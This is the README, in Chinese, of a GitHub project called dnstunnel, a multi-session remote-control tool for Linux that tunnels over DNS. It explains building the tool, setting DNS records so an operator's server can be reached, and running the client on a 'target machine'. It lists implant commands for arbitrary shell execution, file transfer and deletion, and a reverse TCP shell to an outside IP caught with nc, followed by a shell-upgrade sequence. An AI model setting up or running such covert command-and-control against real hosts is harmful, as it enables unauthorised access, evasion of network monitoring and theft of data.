 # dnstunnel
一款LINUX下的支持多会话的二进制DNS隧道远控，一个服务端可以连接多个客户端（暂未做充分测试，欢迎提issue）。
# 说明
DNS通道传输能力非常有限，速率比较低，传输大量的字节需要很长时间。支持PowerPC、ARM、MIPSeb、MIPSel、x86、x86_64等各平台gcc编译使用，交叉编译时注意要先静态编译好zlib(https://github.com/madler/zlib)，然后修改Makefile这一行libz.a的位置：
```
LINKOBJ  = ../common/base32.o log.o ui.o dns.o server.o ../common/util.o ../common/udp.o app.o gateway.o worker.o cmd.o session.o /usr/lib/x86_64-linux-gnu/libz.a
```
客户端默认是静态链接的，是为了防止glibc版本不兼容，有需要可以改成动态链接以减小体积。
## 交互设计
![avatar](https://raw.githubusercontent.com/bigBestWay/dnstunnel/master/flow.jpg)

协议更新前后效果对比： 
传输9K左右数据，使用停等协议需要3分47秒，使用选择性重传（滑动窗口）协议需要1分53秒。
# 编译
依赖zlib  
```
./build.sh
```
编译debug版本  
```
./build.sh debug
```
# 域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
# 使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
# 用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
reverse <ip> <port>
Session[29727]>>
```
## session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
## getuid  
```
getuid
```
获取当前远程会话的用户ID  
## upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
## download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
## bash
```
bash which python
```
可执行任意shell命令，返回执行结果，注意不要执行需要交互的命令  
## move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
## mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
## rmdir  
删除远端文件夹  
## rename  
重命令文件  
## list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
## rm  
删除远端文件  
## cd  
切换远端程序当前目录  
## pwd  
获取远端程序当前目录  
## hostip  
获取远端机器的出口ip和主机名
## reverse
反弹TCP shell，服务端使用nc -lvnp 56789接收
```
reverse 112.55.4.22 56789
```
nc获得shell后，kali/ubuntu可通过如下命令升级交互式shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg
```
# systemd-resolve占用53端口的解决方法
以ubuntu为例，编辑
```
/etc/systemd/resolved.conf
```
按下面修改
```
[Resolve]
DNS=8.8.8.8  #取消注释，增加dns
#FallbackDNS=
#Domains=
#LLMNR=no
#MulticastDNS=no
#DNSSEC=no
#Cache=yes
DNSStubListener=no  #取消注释，把yes改为no
```
重启服务
```
systemctl restart systemd-resolved
```